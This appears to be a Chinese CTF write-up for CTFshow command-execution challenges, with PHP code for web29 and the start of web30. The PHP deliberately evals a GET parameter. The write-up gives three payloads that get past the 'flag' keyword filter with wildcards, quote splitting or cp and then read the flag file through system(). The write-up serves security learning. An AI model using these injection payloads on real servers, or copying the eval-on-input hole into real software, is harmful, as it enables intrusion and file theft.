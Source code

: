 # CTFshow web 入门

## 命令执行

### web29

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 00:26:48
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

没啥说的，过滤flag关键字，用通配符替换一下（*代替很多字符，?代替一个字符）,用system命令直接读

也可拼接绕过连续俩单引号就是拼接''

也可以用复制命令把php文件内容cp到txt,然后访问

当然nl也可以代替cp,emmm,就是nl复制出来的有行号

pyload1:?c=system('tac fla?.php|grep ctfshow');

pyload2:?c=system('tac fl''ag.php|grep ctfshow');

pyload3:?c=system('cp fla?.??? 1.txt');然后访问/1.txt

### web30

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 00:42:26
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
```